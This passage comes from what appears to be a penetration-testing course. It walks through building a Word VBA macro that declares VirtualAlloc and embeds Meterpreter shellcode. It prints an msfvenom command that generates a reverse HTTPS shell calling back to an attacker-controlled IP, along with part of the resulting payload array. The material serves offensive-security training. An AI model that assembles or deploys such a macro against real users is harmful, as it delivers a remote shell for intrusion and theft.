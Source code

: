 > Listing 17 - Function prototype for VirtualAlloc

This API accepts four arguments. The first, _lpAddress_, is the memory allocation address. If we leave this set to "0", the API will choose the location. The _dwSize_ argument indicates the size of the allocation. Finally, _flAllocationType_ and _flProtect_ indicate the allocation type and the memory protections, which we will come back to.

The first argument and the return value are memory pointers that can be represented by _LongPtr_ in VBA. The remaining three arguments are integers and can be translated to _Long_.

Let's declare these arguments in our first _Declare_ statement as shown in Listing 18.

```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```

> Listing 18 - Function declaration for VirtualAlloc

Now that we have our _Declare_ statement, we need to figure out some of the values we need. Since we don't yet know the size of our shellcode, let's generate it first.

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, and while newer versions of Microsoft Word like 365 and 2021 are 64-bit applications, older versions like 2016 run as 32-bit. In our case we will generate a 64-bit Meterpreter shellcode.

We'll use **msfvenom** to a generate shellcode formatted as _vbapplication_, as the first stage of a Meterpreter shell.

Since we'll be executing our shellcode inside Word, we'll set _EXITFUNC_ to "thread" (instead of the default value of "process") so that Word won't close when the shellcode exits.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
...
Payload size: 793 bytes
Final size of vbapplication file: 2655 bytes
buf = Array(252,72,131,228,240,232,204,0,0,0,65,81,65,80,82,72,49,210,81,101,72,
...
06,0,89,187,224,29,42,10,65,137,218,255,213)

```

> Listing 19 - Generate shellcode in vbapplication format

We'll add this array to our VBA code.

Next, we'll set the arguments for _VirtualAlloc_. The MSDN documentation suggests that we should set supply _lpAddress_ to "0", which will leave the memory allocation to the API. For the second argument, _dwSize_, we could hardcode the size of our shellcode based on the output from msfvenom, but it's better to set it dynamically. This way, if we change our payload, we won't have to change this value. We'll use the [_UBound_ function](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/ubound-function) to get the size of the array (_buf_) containing the shellcode.

For the third argument, we will use 0x3000, which equates to the [allocation type enums](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) of _MEM\_COMMIT_ and _MEM\_RESERVE_. This will make the operating system allocate the desired memory for us and make it available. In VBA, this hex notation will be represented as _\&H3000_.
